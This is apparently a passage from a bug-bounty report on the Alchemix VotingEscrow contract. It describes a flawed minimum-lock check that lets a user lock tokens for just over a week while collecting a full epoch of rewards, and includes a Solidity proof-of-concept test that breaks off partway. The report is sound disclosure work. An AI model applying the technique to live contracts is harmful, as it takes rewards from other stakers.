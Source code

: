 The check performed:

```
unlockTime >= (((block.timestamp + EPOCH) / WEEK) * WEEK)

1717632000 >= (((1717027199 + 2 weeks) / 1 weeks) * 1 weeks)

1717632000 >= 1717632000
```

The check passes for Bob, even though his lock time is only `7 days + 1 second`.

## Impact Details

The flawed minimum lock time check allows users to lock BPTs for only 1 week but still receive rewards for a full epoch. This results in unfair reward distribution, with malicious users effectively stealing rewards from others.

## References

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1375-L1381

## Proof of Concept

The following coded PoC demonstrates the issue.

Add the following test case to `VotingEscrow.t.sol`:

```solidity
    function test_can_create_lock_for_less_than_1_epoch() public {
        console.log(newEpoch());

        address alice = address(1337);
        vm.label(alice, "Alice");
        address bob = address(31337);
        vm.label(bob, "Bob");

        // Mint Alice & Bob some BPT
        deal(bpt, alice, 10e18);
        deal(bpt, bob, 10e18);

        // Warp time to exactly 2 weeks before the new epoch
        hevm.warp(newEpoch() - 2 weeks); 

        hevm.startPrank(alice);
        IERC20(bpt).approve(address(veALCX), 1e18);
        uint256 aliceTokenId = veALCX.createLock(1e18, 2 weeks, false);
        voter.reset(aliceTokenId);
        // Alice locks 1 BPT for 2 weeks (the minimum lock period) and reset the tokenId
        hevm.stopPrank();

        // Warp time to 7 days and 2 seconds before the next epoch starts
        hevm.warp(newEpoch() - (7 days + 2 seconds));

        hevm.startPrank(bob);
        IERC20(bpt).approve(address(veALCX), 1e18);
        uint256 bobTokenId = veALCX.createLock(1e18, 7 days + 1 seconds, false);
        // Bob succeeds in locking 1 BPT for 7 days + 1 seconds which is less than the required minimum lock period of 1 epoch (2 weeks)
        voter.reset(bobTokenId);
        hevm.stopPrank();

        // Warp time to the start of the new epoch
        hevm.warp(newEpoch());
```